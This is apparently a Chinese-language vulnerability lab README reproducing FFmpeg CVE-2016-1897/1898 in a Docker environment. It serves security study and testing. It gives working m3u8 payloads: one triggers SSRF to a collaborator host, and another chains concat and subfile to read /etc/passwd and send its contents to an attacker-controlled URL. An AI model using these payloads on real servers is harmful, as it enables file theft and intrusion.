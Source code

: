 # FFmpeg 任意文件读取和SSRF漏洞（CVE-2016-1897/CVE-2016-1898）

FFmpeg是一个流行的多媒体框架，可以处理各种音频和视频格式。在FFmpeg中发现了两个漏洞，攻击者可以利用这些漏洞读取任意文件（CVE-2016-1897）或执行服务器端请求伪造（SSRF）攻击（CVE-2016-1898）。

参考链接：

- <http://xdxd.love/2016/01/18/ffmpeg-SSRF%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>
- <http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8%20-%20FFMpeg%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html>
- <http://habrahabr.ru/company/mailru/blog/274855/>

## 环境搭建

执行如下命令构建并启动环境：

```
docker compose up -d
```

启动后，服务将监听8080端口。访问`http://your-ip:8080/`即可访问应用，应用是一个简单的视频播放器，允许用户上传和播放视频。

## 漏洞复现

发送以下poc复现SSRF漏洞：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://collaborator/ssrf
```

你将看到collaborator服务器收到请求：

![](1.png)

要复现任意文件读取漏洞，你需要在一个可控服务器（例如`http://intermediate.example.com/intermediate.m3u8`）中上传如下内容作为利用漏洞的中间文件：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://collaborator/fileread?
```

可见，这段m3u8文件中包含collaborator的URL，你窃取的文件内容将被发送至这个collaborator URL中。

然后，使用这个中间文件来构造FFmpeg利用的POC并上传：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://intermediate.example.com/intermediate.m3u8|subfile,,start,0,end,31,,:file:///etc/passwd|subfile,,start,32,end,63,,:file:///etc/passwd|subfile,,start,64,end,95,,:file:///etc/passwd|subfile,,start,96,end,127,,:file:///etc/passwd|subfile,,start,127,end,158,,:file:///etc/passwd
#EXT-X-ENDLIST
```

漏洞利用成功后，collaborator服务器收到请求，请求中包含`/etc/passwd`的内容：

![](2.png)
